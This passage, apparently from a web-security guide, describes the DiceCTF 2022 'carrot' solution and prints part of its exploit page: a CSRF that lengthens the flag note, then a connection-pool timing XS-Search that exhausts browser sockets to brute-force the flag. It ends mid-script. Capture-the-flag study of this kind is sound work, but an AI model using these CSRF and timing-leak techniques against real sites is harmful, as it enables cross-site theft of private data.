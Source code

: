 ```html
          f2.submit()
          setTimeout(() => {
            resolve(isFound)
          }, 200)
        }, 200)
      }
    </script>
  </body>
</html>
```

## DiceCTF 2022 - carrot

In this case the first step of the exploit was to abuse a CSRF to modify the page where the flag is contained so it has **much more content** (and therefore loading it takes more time), and then **abuse the connection pool to measure the time it takes to access the page** that could be potentially having the flag.

In the exploit you can see:

- Abuse CSRF
- Occupy all the sockets but 1
- Calibrate the response
- Start bruteforcing by accessing the potential page with the flag
  - The potential page will be accessed and immediately an attackers controlled URL will also be accessed to check how much time both requests take.

```html
<h1>DiceCTF 2022 web/carrot</h1>

<p>
  Step 1: CSRF the admin user, to set a super long title for the flag note (LAX
  + POST form only possible for 2 minutes after cookies is created)
</p>
<button onclick="csrf()">do csrf</button>
<p>
  Step 2: XS-Search with
  <a href="https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/"
    >connection-pool timing leak</a
  >, we have to use window.open (LAX cookie)
</p>

<button onclick="popunder()">open popup</button>
<button onclick="exhaust_sockets()">open 255 connections</button>
<button onclick="oracle('dice{abc')">test search "abc" (slow)</button>
<button onclick="oracle('dice{xxx')">test search "xxx" (fast)</button>
<br />
<br />
<h2 id="output"></h2>
<br />
<form id="x" action="" method="POST" style="display:none;">
  <input type="text" name="title" placeholder="title" />
  <br /><br />
  <input type="number" name="priority" placeholder="priority" value="9999" />
  <br /><br />
  <textarea name="content" placeholder="content" rows="5" cols="20"></textarea>
  <br /><br />
  <input type="submit" value="submit" />
</form>

<script>
  // this is send is used as logging
  LOG = "Starting"
  // 255 in normal chrome, 99 in headless
```